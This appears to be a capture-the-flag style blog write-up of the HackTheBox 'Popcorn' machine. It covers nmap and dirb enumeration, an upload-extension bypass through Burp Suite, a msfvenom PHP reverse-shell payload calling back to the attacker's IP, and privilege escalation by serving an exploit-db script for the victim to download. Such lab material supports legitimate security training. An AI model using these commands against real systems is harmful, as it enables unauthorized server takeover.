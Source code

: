 ```yaml
---
layout: post
comments: true
title: "How to hack a site through an uploader."
author: Gerh
featured-img: uploaderPopcorn
image: https://hackingprofessional.github.io/HTB/assets/img/posts/uploaderPopcorn.jpg
description: Learn pentesting web from 0 with HackTheBox (Popcorn).
categories: [Enumeration, Pentesting WEB, Escalation Privilege, Metasploit Framework]
---
```


Hello Hackers!! 
In this day, we will learn how to have total control over a web server, all thanks to a badly configured uploader.  
Before starting I want to clarify that all my published content is done for educational, informative and ethical purposes.
I am not responsible for the misuse they may give you.  

## With this tutorial you will learn:
  - how to intercept requests with burpsuite.
  - how to bypass file upload restrictions using burp suite.
  - how to perform a simple port scan with Nmap.
  - how to get a meterpreter session with Metasploit.
  - how to perform a directory discovery with dirb.
  - How to perform an exploit search with Searchsploit.

To carry out this demonstration, we will perform a penetration test on a vulnerable machine called **Popcorn** published on the [HackTheBox](https://www.hackthebox.eu/home/machines/profile/4) platform.
In any process to hack or have total control over a server in an unauthorized manner must start with a system enumeration.
For this we will perform a simple scan with Nmap, in the following way.  
```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2734]
╰─[:)] # nmap -T4 -Pn -sV -F -sC -oN Popcorn.nmap 10.10.10.6
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-01 02:06 -05
Nmap scan report for 10.10.10.6
Host is up (0.20s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
With the results of the Nmap, we can identify that our victim has port 22 (SSH) and port 80 (HTTP) open.
Knowing port 80 is open in the victim’s network we preferred to explore his IP in the browser but didn’t get any remarkable clue for the next step.  

![Port80Popcorn](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80Popcorn.png "Initial page running on port 80.")  

The next step is to perform a directory discovery, for this I will use DIRB.  
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.
[Kali Linux](https://tools.kali.org/web-applications/dirb)

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2735]
╰─[:)] # dirb http://10.10.10.6 /usr/share/dirb/wordlists/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Apr  1 02:06:49 2019
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                     
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                        
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                   
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                
+ http://10.10.10.6/test (CODE:200|SIZE:47328)                                                                                                       
==> DIRECTORY: http://10.10.10.6/torrent/

---- Entering directory: http://10.10.10.6/torrent/ ----
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                      
==> DIRECTORY: http://10.10.10.6/torrent/css/                                                                                                        
==> DIRECTORY: http://10.10.10.6/torrent/database/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/health/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/images/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/js/                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/lib/                                                                                                                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/readme/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/templates/                                                                                                  
==> DIRECTORY: http://10.10.10.6/torrent/torrents/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/upload/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/users/ 
```

Knowing the above, we decided to explore http://10.10.10.6/torrent/ through browser URL and what we see is a Webpage shown below. 
After looking at the page for some clue, we saw that we need to register on this site first.  

![Port80PopcornTorrent](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80PopcornTorrent.png "Navigating in the directory /torrent") 

To continue, we will create a user in the information system by filling out the registration form.

![Port80PopcornCreateUser](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80PopcornCreateUser.png "Creating a user in the information system.") 

After successfully registering on the website; We managed to identify an uploader where apparently the correct use of this, is for the uploading of utorrent's and hosting them on the site.
The next step is to upload any uttorrent and then edit it, in this way we can find another uploader which will facilitate the upload of our malicious file.

![PopcornEditTorrent](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornEditTorrent.png "Uploading uttorrent") 

![PopcornEditTorrent2](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornEditTorrent2.png "Editing uttorrent uploaded") 

Next, we are going to generate with Metasploit an exploit that allows us to connect through a reverse shell.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2738]
╰─[:)] # msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.4 lport=6969 -f raw > shell.php  
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1111 bytes
```

After generating our payload, we try to upload it to the server.
To avoid file filtering by extension that has the web server, which does not allow the upload of a file with PHP extension; what we must do is concatenate another extension that if valid on the name of our payload as follows:

![PopcornUploadShell](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornUploadShell.png "How to bypass file upload restrictions.") 

We are going to start a burpsuite instance, and then we intercept the request to manipulate the extension of our malicious file.

![PopcornBurpsuite](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornBurpsuite.png "How to bypass file upload restrictions using burp suite.") 

Ok, we have our file uploaded to the victim web server.  

![PopcornFileUploaded](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornFileUploaded.png "File with PHP extension uploaded.") 

Now what we must do is locate this file and access it from a browser, in order to obtain RCE on the machine.
Among the results of the previous scan with DIRB, there was a route where the files would appear to be uploaded.
So next we decided to explore http://10.10.10.6/torrent/upload/ through browser URL and what we see is a Webpage shown below.  

![PopcornFileUploaded2](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornFileUploaded2.png "File with PHP extension uploaded.")  

We see that our file has been successfully uploaded. 
We click on our file, but first we must start the metasploit and tell it that we are going to wait for a connection.

![Popcornwww-data](https://hackingprofessional.github.io/HTB/assets/img/posts/Popcornwww-data.png "RCE on Popcorn HackTheBox") 

Ready friends!  
We can now execute commands on our server with the www-data user, thanks to our meterpreter session that we managed to obtain.

## Privilege Escalation  
Now that we have access to the server we are going to enumerate a bit.
Initially I managed to identify something interesting on the desktop.

![PopcornLsR](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornLsR.png "Recursive list of files.") 

Apparently there is a folder called cache that contains a file with interesting name, we will perform a search for exploits with searchsploit indicating the name of the mentioned file.

![PopcornSearchsploit](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornSearchsploit.png "Using Searchsploit") 

Interestingly, we find 3 results, and apparently 2 of them are used for the Privilege Escalation.
At this moment, what we have to do is copy the exploit from the searchsploit directory, and to avoid later errors we use **dos2unix** to run the exploit without problems on our victim machine.
On the other hand,  In order to upload the script to our victim, I will mount an HTTP server that hosts the script that will allow us to scale privileges.; later from the victim machine I will download the file using WGET.
We go to the folder that contains our bash script and execute the following to mount an HTTP server with Python.

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2762]
╰─[:)] # cp /usr/share/exploitdb/exploits/linux/local/14339.sh ./                  
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2763]
╰─[:)] # ls
14339.sh  Popcorn.nmap  shell.php.png
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2764]
╰─[:)] # mv 14339.sh privesc.sh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2765]
╰─[:)] # dos2unix privesc.sh 
dos2unix: converting file privesc.sh to Unix format...
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2766]
╰─[:)] # python3 -m http.server                                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After having published the exploit on our HTTP server, we downloaded it to our victim machine (Popcorn) and proceed with the execution of this as indicated below.

<script id="asciicast-238104" src="https://asciinema.org/a/238104.js" async></script>

And with this we conclude the tutorial of today.

